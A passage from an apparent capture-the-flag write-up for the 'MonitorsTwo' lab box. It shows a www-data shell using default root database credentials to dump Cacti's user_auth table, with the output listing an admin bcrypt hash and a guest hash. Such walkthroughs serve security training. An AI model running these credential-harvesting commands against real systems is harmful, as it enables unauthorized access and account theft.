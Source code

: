 ```

| user_auth_group_members       |

| user_auth_group_perms        |

| user_auth_group_realm        |

| user_auth_perms           |

| user_auth_realm           |

| user_domains            |

| user_domains_ldap          |

| user_log              |

| vdef                |

| vdef_items             |

| version               |

+-------------------------------------+s
```
{% endcode %}

* _user\_auth_ may have credentials, so tried reading it.



{% code overflow="wrap" fullWidth="false" %}
```
www-data@50bca5e748b0:/var/www/html$ mysql --host=db --user=root --password=root cacti -e "select * from user_auth

+----+----------+--------------------------------------------------------------+-------+----------------+------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+

| id | username | password                           | realm | full_name   | email_address     | must_change_password | password_change | show_tree | show_list | show_preview | graph_settings | login_opts | policy_graphs | policy_trees | policy_hosts | policy_graph_templates | enabled | lastchange | lastlogin | password_history | locked | failed_attempts | lastfail | reset_perms |

+----+----------+--------------------------------------------------------------+-------+----------------+------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+

| 1 | admin  | $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC |   0 | Jamie Thompson | admin@monitorstwo.htb |           | on       | on    | on    | on      | on       |     2 |       1 |      1 |      1 |           1 | on   |     -1 |    -1 | -1        |    |        0 |    0 |  663348655 |

| 3 | guest  | 43e9a4ab75570f5b                       |   0 | Guest Account |            | on          | on       | on    | on    | on      | 3       |     1 |       1 |      1 |      1 |           1 |     |     -1 |    -1 | -1        |    |        0 |    0 |      0 |

```